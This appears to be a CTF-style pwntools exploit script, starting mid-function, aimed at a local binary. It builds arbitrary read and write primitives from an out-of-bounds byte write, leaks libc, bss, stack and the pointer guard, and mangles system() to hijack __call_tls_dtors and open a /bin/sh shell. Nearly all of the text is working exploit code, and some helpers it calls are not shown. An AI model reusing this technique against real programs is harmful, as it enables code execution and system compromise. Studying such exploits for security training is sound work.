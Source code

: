 ```py
    idx = -191
    for b in range(8):
        change_byte(p, idx, b, (addr >> (b * 8)) & 0xff)

    idx -= 1
    for b in range(8):
        change_byte(p, idx, b, (data >> (b * 8)) & 0xff)

def arbitrary_read(p: process, addr: int):
    idx = -191
    for b in range(8):
        change_byte(p, idx, b, (addr >> (b * 8)) & 0xff)
    p.sendline("2")
    p.sendline("-192")
    p.recvuntil("0000 |   ")
    line = b''.join(reversed(p.recvline()[:-1].split(b' ')))
    res = int(line, 16)
    return res

def leak_stack(p: process, libc: int):
    stack = arbitrary_read(p, libc + ENVIRON) - 0x20a78
    print("stack: ", hex(stack))
    return stack

def generate_dtor_struct(p: process, param: int, addr: int):
    return p64(addr) + p64(param)

def main():
    ### run ###
    p = process("/tmp/h")

    ### leaks ###
    libc = leak_libc(p)
    bss = leak_bss(p)

    ### setup ###
    idx = -191
    change_byte(p, idx, 0, (bss & 0xff) - 8) # set arb arg addr
    arbitrary_write(p, bss + (0x44 * 8) - 8, 8) # set arb arg size to 8

    ### leaks ###
    stack = leak_stack(p, libc)
    p_guard = arbitrary_read(p, libc - FS_BASE)
    print("p_guard: ", hex(p_guard))

    ### payload ###
    func = libc + SYSTEM
    func ^= p_guard
    func = rol(func, 0x11, word_size=64)

    arbitrary_write(p, bss + 0x20, func)
    arbitrary_write(p, bss + 0x28, libc + BINSH)
    for i in range(1,3):
        arbitrary_write(p, bss + 0x28 + (i * 8), 0)
    arbitrary_write(p, libc - __GI___call_tls_dtors, bss + 0x20)
    p.sendline("0")
    p.interactive()


if __name__ == "__main__":
    main()
```
